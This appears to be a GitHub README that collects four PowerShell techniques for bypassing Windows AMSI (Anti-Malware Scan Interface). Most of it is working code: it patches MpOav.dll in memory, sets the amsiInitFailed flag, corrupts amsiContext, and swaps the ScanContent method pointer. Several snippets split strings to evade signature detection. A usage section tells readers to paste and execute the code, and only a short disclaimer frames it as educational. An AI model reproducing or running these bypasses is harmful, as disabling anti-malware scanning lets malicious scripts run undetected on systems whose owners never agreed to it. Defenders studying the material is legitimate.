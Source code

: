 # AMSI Bypass Techniques

This repository contains various AMSI (Anti-Malware Scan Interface) bypass techniques for educational purposes. Each technique targets a different aspect of AMSI's functionality.

> **Note**: These techniques are based on the original work from [S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) repository.

## Bypass Techniques

### 1. MpOav.dll DllGetClassObject Patching
This technique patches the DllGetClassObject function in MpOav.dll to return a negative value, effectively disabling AMSI scanning.

```powershell
function Get-ProcAddress {
    Param(
        [Parameter(Position = 0, Mandatory = $True)] [String] $Module,
        [Parameter(Position = 1, Mandatory = $True)] [String] $Procedure
    )

    $SystemAssembly = [AppDomain]::CurrentDomain.GetAssemblies() |
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
    $UnsafeNativeMethods = $SystemAssembly.GetType('Microsoft.Win32.UnsafeNativeMethods')
    $GetModuleHandle = $UnsafeNativeMethods.GetMethod('GetModuleHandle')
    $GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String]))
    $Kern32Handle = $GetModuleHandle.Invoke($null, @($Module))
    $tmpPtr = New-Object IntPtr
    $HandleRef = New-Object System.Runtime.InteropServices.HandleRef($tmpPtr, $Kern32Handle)
    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef]$HandleRef, $Procedure))
}

function Get-DelegateType {
    Param(
        [OutputType([Type])]
        [Parameter( Position = 0)]
        [Type[]]
        $Parameters = (New-Object Type[](0)),
        [Parameter( Position = 1 )]
        [Type]
        $ReturnType = [Void]
    )

    $Domain = [AppDomain]::CurrentDomain
    $DynAssembly = New-Object System.Reflection.AssemblyName('ReflectedDelegate')
    $AssemblyBuilder = $Domain.DefineDynamicAssembly($DynAssembly, [System.Reflection.Emit.AssemblyBuilderAccess]::Run)
    $ModuleBuilder = $AssemblyBuilder.DefineDynamicModule('InMemoryModule', $false)
    $TypeBuilder = $ModuleBuilder.DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $ConstructorBuilder = $TypeBuilder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $Parameters)
    $ConstructorBuilder.SetImplementationFlags('Runtime, Managed')
    $MethodBuilder = $TypeBuilder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $ReturnType, $Parameters)
    $MethodBuilder.SetImplementationFlags('Runtime, Managed')
    Write-Output $TypeBuilder.CreateType()
}

$LoadLibraryAddr = Get-ProcAddress kernel32.dll LoadLibraryA
$LoadLibraryDelegate = Get-DelegateType @([String]) ([IntPtr])
$LoadLibrary = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($LoadLibraryAddr, $LoadLibraryDelegate)
$GetProcAddressAddr = Get-ProcAddress kernel32.dll GetProcAddress
$GetProcAddressDelegate = Get-DelegateType @([IntPtr], [String]) ([IntPtr])
$GetProcAddress = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($GetProcAddressAddr, $GetProcAddressDelegate)
$VirtualProtectAddr = Get-ProcAddress kernel32.dll VirtualProtect
$VirtualProtectDelegate = Get-DelegateType @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool])
$VirtualProtect = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualProtectAddr, $VirtualProtectDelegate)

$hModule = $LoadLibrary.Invoke("MpOav.dll")
$DllGetClassObjectAddress = $GetProcAddress.Invoke($hModule, "DllGetClassObject")
$p = 0
$VirtualProtect.Invoke($DllGetClassObjectAddress, [uint32]6, 0x40, [ref]$p) 
$ret_minus = [byte[]] (0xb8, 0xff, 0xff, 0xff, 0xff, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($ret_minus, 0, $DllGetClassObjectAddress, 6)
$object = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls')
$Uninitialize = $object.GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null)
```

### 2. AmsiUtils.amsiInitFailed Field Manipulation
This technique manipulates the amsiInitFailed field to force AMSI to fail initialization.

```powershell
$amsiInitFailedField=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetFields('NonPublic,Static') | Where-Object { $_.Name -like "amsiInitFailed" }
$amsiInitFailedField.SetValue($null, $true)
```

### 3. AmsiUtils.amsiContext Corruption
This technique corrupts the AMSI context by overwriting it with zeros.

```powershell
$fields=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetFields('NonPublic,Static')
$amsiContext=$fields | Where-Object { $_ -like "*Context" }
[IntPtr]$amsiContextPointer=$amsiContext.GetValue($null)
[Int32[]]$emptyBuffer = @(0);
[System.Runtime.InteropServices.Marshal]::Copy($emptyBuffer, 0, $amsiContextPointer, 1)
```

### 4. AmsiUtils.ScanContent Method Pointer Swap
This technique replaces the ScanContent method with a custom implementation that always returns 1 (indicating no threat).

```powershell
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
$o = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent
$t = [TrollAMSI].GetMethods() | Where-Object Name -eq 'M'
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]$t.MethodHandle.Value + [long]8)),0, [long]$o.MethodHandle.Value + [long]8,1)
```

## Usage
To use any of these bypasses:
1. Open PowerShell
2. Copy and paste the desired bypass code
3. Execute the code

## Disclaimer
These techniques are provided for educational purposes only. Use them responsibly and only in controlled environments for security research and testing. 